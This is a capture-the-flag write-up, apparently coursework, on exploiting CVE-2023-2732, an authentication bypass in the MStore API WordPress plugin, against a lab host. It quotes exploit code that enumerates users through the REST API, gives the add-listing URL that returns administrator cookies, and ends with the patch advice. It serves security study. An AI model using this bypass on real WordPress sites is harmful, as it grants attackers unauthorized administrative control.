 # CTF Week #3 (Wordpress CVE)

## Recognition

To begin, we accessed the target at http://143.47.40.175:5001, navigated to the `Shop` section, and selected `WordPress Hosting`. From there, we reviewed the `Additional Information` at the following URL: http://143.47.40.175:5001/product/wordpress-hosting/.
This information about the software and versions already gave us a start for the research phase.

<p align="center" justify="center">
  <img src="./assets/CTF3/plugins.png"/>
</p>

## CVE Research

Next, we conducted a vulnerability search via the [Search CVE List](https://cve.mitre.org/cve/search_cve_list.html) where the search query was composed of relevant versions and plugins: `Wordpress 5.8.1 MStore API 3.9.0 WooCommerce 5.7.1 Booster for WooCommerce 5.4.4`.

This search yielded four potential CVEs:

<p align="center" justify="center">
  <img src="./assets/CTF3/CVEs.png"/>
</p>

## CVE Selection

The goal was to exploit a vulnerability that would allow administrative access. After analysis, the most applicable CVEs for this purpose were: `CVE-2023-2734`, `CVE-2023-2733`, and `CVE-2023-2732`.

Since we needed to submit the vulnerability code as the first CTF flag, we got the confirmation that the vulnerability was indeed `CVE-2023-2732`.

## Finding an Exploit

While searching for exploits, we discovered a GitHub repository containing an exploit for `CVE-2023-2732`, available [here](https://github.com/RandomRobbieBF/CVE-2023-2732).

Although an attempt to execute the provided script resulted in errors, we were more interested in analyzing the source code, which led us to identify two key functions:

1. **fetch_usernames_rest_api**: This function retrieves the list of WordPress users via the REST API.

    ```py
    def fetch_usernames_rest_api(wordpress_url):
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299'}
        response = session.get(f"{wordpress_url}/wp-json/wp/v2/users", headers=headers,verify=False,timeout=30)
        ...
    ```
2. **sendem**: This function sends a request that exploits the vulnerability to add administrative permissions for a specified user.
    ```py
    def sendem(user_id, username):
        # Set up the request headers
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3'}
        # Send the request
        response = session.get(""+wordpress_url+"/wp-json/wp/v2/add-listing?id="+str(user_id)+"", headers=headers,verify=False,timeout=30)
        ...
    ```

The `fetch_usernames_rest_api` function allows us to extract user IDs, and `sendem` facilitates privilege escalation by exploiting the identified vulnerability.

## Exploiting the Vulnerability

1. We started by accessing http://143.47.40.175:5001/wp-json/wp/v2/users and retrieving the list of users as a JSON response:
<p align="center" justify="center">
  <img src="./assets/CTF3/admin_id.png"/>
</p>

2. From the response, we identified that the Administrator's user ID is `1`.
3. Using the `sendem` function, we crafted a URL to exploit the vulnerability by entering the following into the browser: http://143.47.40.175:5001/wp-json/wp/v2/add-listing?id=1.  
When trying to access this URL, the browser will start to load for a long time and, analyzing the requests, we can see that the same GET request to the URL is being executed in a loop, ending in a message saying "The page isn’t redirecting properly".  
However, the response to these requests come with cookies  with the admin login information, effectively granting administrative permissions to our session.
4. To find the flag, we searched for common URL patterns used for the WordPress admin dashboard and identified http://143.47.40.175:5001/wp-admin/index.php as a potential entry point.  
Upon accessing this URL, we successfully reached the admin dashboard. From there, we navigated to the **Posts** section, where we found a post titled "Message for our Employers", which contained the second CTF flag.

## Vulnerability Remediation

This vulnerability is caused by the MStore API plugin for WordPress not performing sufficient verification on the user being supplied during the add listing REST API request, for versions up to, and including, 3.9.2, as stated in [Wordfence](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/mstore-api/mstore-api-392-authentication-bypass). For this reason, the solution is to update the plugin to version 3.9.3, or a newer patched version.